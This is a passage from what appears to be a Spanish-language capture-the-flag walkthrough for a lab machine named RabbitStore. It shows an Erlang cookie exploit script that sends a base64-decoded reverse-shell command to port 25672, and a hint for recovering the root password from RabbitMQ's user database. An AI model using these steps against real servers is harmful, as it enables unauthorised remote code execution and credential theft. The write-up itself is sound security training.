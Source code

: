 <figure><img src="../.gitbook/assets/RabbitStore/erlang.png" alt=""><figcaption></figcaption></figure>

Para subir la reverse shell, debemos codificar nuestro comando en `Base64` y enviarlo de la siguiente manera.

```
python2 shell-erldp2.py rabbitstore.thm 25672 REDACTED 'echo <reb-shell> | base64 -d | bash'
```

Tienes que intentarlo con diferentes comando de shell.

<figure><img src="../.gitbook/assets/RabbitStore/shellrabbit.png" alt=""><figcaption></figcaption></figure>

# Shell /rabbitmq

Al enumerar los usuarios, encontramos el archivo `rabbit_user.DCD`. Este archivo es parte de la base de datos de `RabbitMQ`. Contiene un mensaje que indica que la contraseña del usuario root es la misma que el hash `SHA-256` de la contraseña del usuario `root` de `RabbitMQ`.
